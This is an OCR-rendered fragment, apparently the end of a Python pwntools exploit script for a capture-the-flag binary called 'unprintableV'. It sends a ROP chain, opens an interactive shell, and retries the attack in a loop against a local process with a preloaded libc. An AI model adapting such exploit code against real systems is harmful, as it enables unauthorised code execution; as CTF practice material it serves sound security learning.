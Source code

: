 126.  sh.sendline(rop)  

128.  sh.interactive()  

130.  **while** True:  
131.  **try**:  
132.  sh = process('./unprintableV',env={"LD_PRELOAD":"./libc.so.6"})  
133.  crack(sh)  
134.  **except** BaseException as e:  
135.  **print** e  
136.  sh.kill()  
137.  **print** 'retrying...'